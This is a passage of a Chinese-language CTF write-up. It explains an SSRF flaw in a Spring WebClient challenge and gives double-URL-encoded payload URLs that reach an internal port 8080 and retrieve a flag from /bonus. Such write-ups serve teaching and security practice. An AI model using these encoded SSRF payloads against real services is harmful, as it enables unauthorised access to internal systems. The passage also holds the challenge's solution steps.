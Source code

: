 这里考察选手对 Java 代码的熟悉程度，Spring WebClient 创建时虽然定义 baseUrl，但 `uri()` 处传入的参数若被用户完全控制，会产生 SSRF。

index 参数从请求路径中获取，直接传入 

`http://127.0.0.1/admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30`

URL 解码后 `http://127.0.0.1/admin/http://127.0.0.1:8080`

可访问到内网 8080 端口（该端口没有直接提示，需要选手根据源码中给出的 8079 推出，或尝试端口遍历）

得到端口列表

```
Endpoints:
/bonus
/source_bak
```

利用 SSRF 访问 `http://127.0.0.1:8080/bonus` 可以得到 `flag2`

`http://127.0.0.1/admin/%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%61%25%33%38%25%33%30%25%33%38%25%33%30%25%32%66%25%36%32%25%36%66%25%36%65%25%37%35%25%37%33`

![image-20221126003723506](assets/image-20221126003723506.png)

![image-20221126003730618](assets/image-20221126003730618.png)
